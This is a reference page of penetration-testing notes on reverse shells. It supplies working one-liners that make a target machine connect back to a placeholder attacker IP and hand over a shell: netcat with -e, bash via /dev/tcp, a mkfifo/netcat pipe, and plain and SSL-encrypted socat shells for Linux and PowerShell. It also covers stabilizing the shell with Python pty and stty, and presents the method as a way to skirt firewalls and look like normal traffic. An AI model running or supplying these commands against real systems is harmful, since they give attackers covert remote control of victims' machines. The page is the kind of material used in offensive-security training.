

# Reverse Shell

Used to force the target machine to initiate a connection back to the attacker's machine thus creating a control channel that is often capable of skirting target-side firewall rules. From a target-side observer's perspective it would look like the target client initiated a connection to the attacker's server of its own volition thus making the attack look more like normal web traffic.

<figure><figcaption><p>Netcat Reverse Shell Example</p></figcaption></figure>

## Netcat

### Basic Reverse Shell

#### Target Machine

The simplest command to spawn the shell is&#x20;

```shell
nc {ATTACKER-IP} {PORT} -e /bin/bash
```

The `-e /bin/bash` portion of the command instructs Netcat to pass any input from the user directly on to the program `/bin/bash`.

Often the machine will have the `-e` flag disabled thus preventing this straightforward method of shell creation.

### Disabled Execution Bypass

For obvious reasons the `-e` flag presents a huge security risk for netcat installations and is thus often disabled by default. Should the flag be disabled its functionality can be replicated via some creativity in the command line.

#### Method 1 (Linux)

This method is somewhat unreliable but can be tried as a first attempt.

```bash
user@target:~$ bash -i >& /dev/tcp/{Listener-IP}/{PORT} 0>&1
```

| Component      | Description                                                                             |
| -------------- | --------------------------------------------------------------------------------------- |
| `-i`           | Makes shell interactive                                                                 |
| `/dev/tcp/...` | Some older Linux distros allow network access via the `/dev/tcp/<IP>/<PORT>` file path  |
| `0>&1`         | Binds STDIN and STDOUT together (and to the listening port)                             |

#### Method 2 (Linux)

This method tends to be a more reliable bypass.

```bash
user@target:~$ mkfifo /tmp/f; nc {IP} {PORT} < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

| Component        | Description                                                                                                                                                                                                                               |
| ---------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `mkfifo /tmp/f`  | Creates a named pipe at `/tmp/f`                                                                                                                                                                                                          |
| `nc {IP} {PORT}` | Invokes netcat and points it at the IP and PORT of the listener                                                                                                                                                                           |
| `< /tmp/f`       | Redirects output of named pipe (`/tmp/f`) into netcat connection (returns it to attacker via network)                                                                                                                                     |
| `\| /bin/sh`     | Pipes the output from netcat to the input of `/bin/sh`                                                                                                                                                                                    |
| `> /tmp/f`       | Redirects the output from /bin/sh to named pipe                                                                                                                                                                                           |
| `2>&1`           | <p>Binds (<code>>&#x26;</code> operator) the stderr (output number 2) and the stdout (output number 1).<br><br>Both are going into <code>/tmp/f</code> per step above.</p>                                                                |
| `rm /tmp/f`      | <p>The named pipe persists as long as the shell connection is active (held in a loop by the redirects).<br><br>Once the connection is broken this ensures the named pipe (created by the attacker) is removed from the target system.</p> |

### Stabilization Techniques

#### Python

Linux boxes generally have Python installed by default and it can be used to stabilize the shell. For this reason this method will generally work on Linux boxes but most Windows machines do not have python installed and enabled by default.

The shell should be launched with `python -c 'import pty;pty.spawn("/bin/bash")'` as the execution invocation.

* This command is used to _upgrade_ an existing dumb shell
* The `pty` module gives capability to initiate a pseudo-terminal that can force  `su` and `ssh`  commands to think they are run in standard terminal

Once a dumb reverse shell is obtained run it can be upgraded as follows

```bash
kali@kali:~$ nc -lvnp 5555
listening on [any] 5555 ...
connect to [192.168.119.209] from (UNKNOWN) [192.168.209.52] 41726

$ python3 -c 'import pty; pty.spawn("/bin/bash")'    # Run on attacker's machine in "dumb shell"
```

At this point the upgraded shell is suspended with `Ctrl + Z`. The attacker's terminal can then be used to run some stabilizing commands before resuming the shell.

```bash
kali@kali:~$ export TERM=xterm
kali@kali:~$ stty raw -echo; fg
```

| Command             | Action                                                                                                                                                                                                                      |
| ------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `export TERM=xterm` | Sets xterm as the terminal window manager                                                                                                                                                                                   |
| `stty raw -echo`    | <p>Sets I/O to standard device and turns off attacker's own terminal echo.<br><br>Gives access to tab autocomplete, arrow key usage, and <code>Ctrl + C</code> can be used to kill processes without exiting the shell.</p> |
| `fg`                | Foregrounds the shell job.                                                                                                                                                                                                  |

This technique is discussed more thoroughly in [this](https://www.infosecademy.com/netcat-reverse-shells/) blog.

#### rlwrap

Program which gives user access to history, tab auto-completion and the arrow keys immediately upon receiving a shell.

* Particularly useful with Windows shells which are typically difficult to stabilize
* Some additional manual stabilization must be done in order to use Ctrl+C command in the terminal to stop commands on target without exiting reverse shell

```bash
kal@kali:~$ rlwrap nc -lvnp {PORT}
```

Invoked by simply placing `rlwarp` command ahead of the standard `nc` listener command for a reverse shell.

If the target is Linux the shell can be fully stabilized at this point by:

1. Suspend the shell with `Ctrl + Z`
2. Execute `stty raw -echo; fg` on the attacking machine to stabilize shell and then foreground the suspended job

## Socat

### Basic Reverse Shell

The simplest reverse shell closely mimics the functionality and structure of Netcat.

For all of these techniques it is assumed that there is a working copy of socat installed on the target machine (in order to make connections back).

If socat is not already installed it is possible to utilize a compiled binary which must be placed on the target machine.

* Static pre-compiled socat binary can be [downloaded](https://github.com/andrew-d/static-binaries)

#### Attacking Machine

```powershell
C:\Users\offsec> socat -d -d TCP4-LISTEN:443 STDOUT
... socat[4388] N listening on AF=2 0.0.0.0:443
```

| Argument            | Description                                          |
| ------------------- | ---------------------------------------------------- |
| `-d -d`             | Increase verbosity                                   |
| `TCP-LISTEN:{PORT}` | Declare a listener at `{PORT}`                       |
| `STDOUT`            | Connect standard output (`STDOUT`) to the TCP socket |

#### Target Machine

Linux Target

```bash
kali@kali:~$ socat TCP4:10.11.0.22:443 EXEC:/bin/bash
```

| Argument           | Description                                                                                        |
| ------------------ | -------------------------------------------------------------------------------------------------- |
| `TCP4:{IP}:{PORT}` | Specify the location to reach out                                                                  |
| `EXEC:{PATH}`      | <p>Specifies an executable to pipe socat into.<br><br>Similar to netcat's <code>-e</code> flag</p> |

Windows Target:

<pre class="language-powershell"><code class="lang-powershell"><strong>C:\Users\offsec> socat TCP:0{IP}:{PORT} EXEC:powershell.exe,pipes</strong></code></pre>

* `pipes` option is used to force powershell (or `cmd.exe`) to use Unix style standard input and output

### Stabilization Techniques

#### Fully Stable Shell (Linux Only)

Technique for creating a fully stable shell on Linux target system only (Attacking machine can be any operating system with socat installed).

Attacker Machine:

```bash
$ socat TCP-L:{PORT} FILE:`tty`,raw,echo=0
```

Target Machine:


```bash
$ socat TCP4:{Listen-IP}:{Listen-PORT} EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```


| Argument          | Description                                                                                                                                                                            |
| ----------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `EXEC:"bash -li"` | <p>Creates an interactive bash session (arguments and purpose listed below).<br><br><code>-li</code> flag launches an <em>interactive</em> shell in <em>login</em> invocation mode</p> |
| `pty`             | Allocates a pseudo-terminal on the target                                                                                                                                              |
| `stderr`          | Makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)                                                                                |
| `sigint`          | Passes any `Ctrl + C` commands through into the sub-process, allowing users to kill commands inside the shell                                                                          |
| `setsid`          | Creates the process in a new session                                                                                                                                                   |
| `sane`            | Stabilizes the terminal, attempting to "normalize" it.                                                                                                                                 |

### Encrypted Shell

The process for generating the SSL certificate is the same as in the bind shell.

#### Shell Creation

Once the cert is generated (on the attacker's machine in this case) the shell can be created.

First the listener should be opened on the **attacker machine**:

```bash
kali@kali:~$ socat OPENSSL-LISTEN:{PORT},cert=shell.pem,verify=0 -
```

* `verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognized authority

Then the **target machine** can be induced to call out to the listener:

```bash
user@target:~$ socat OPENSSL:{IP}:{PORT},verify=0 EXEC:/bin/bash
```
